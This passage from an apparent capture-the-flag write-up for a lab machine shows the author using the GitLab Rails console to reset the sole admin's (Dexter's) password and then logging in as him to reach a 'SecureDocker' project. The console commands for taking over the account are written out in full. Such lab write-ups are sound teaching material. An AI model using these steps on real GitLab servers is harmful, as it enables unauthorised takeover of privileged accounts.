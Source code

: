 ![adm](/assets/Laboratory/adm.png)

Now we can see admin icon on our account, as a result we can now access Dexter's `SecureDocker` Project.

#### Password reset - Dexter

We saw Dexter is the only admin, so we can even reset his password:

```ruby
git@git:/$ gitlab-rails console
--------------------------------------------------------------------------------
 GitLab:       12.8.1 (d18b43a5f5a) FOSS
 GitLab Shell: 11.0.0
 PostgreSQL:   10.12
--------------------------------------------------------------------------------
Loading production environment (Rails 6.0.2)

irb(main):001:0> user = User.where(id: 1).first
=> #<User id:1 @dexter>
irb(main):002:0> user.password = 'cold_fusion'
=> "cold_fusion"
irb(main):003:0> user.password_confirmation = 'cold_fusion'
=> "cold_fusion"
irb(main):004:0> user.save!
Enqueued ActionMailer::DeliveryJob (Job ID: f4543159-759e-4879-885e-8688d65ec401) to Sidekiq(mailers) with arguments: "DeviseMailer", "password_change", "deliver_now", #<GlobalID:0x00007fa1b4dcbda8 @uri=#<URI::GID gid://gitlab/User/1>>
=> true
irb(main):005:0> exit()
```

### SSH - Dexter

Now we can login to GitLab as dexter where we see another Project `SecureDocker` :

![dexter](/assets/Laboratory/dexter.png)
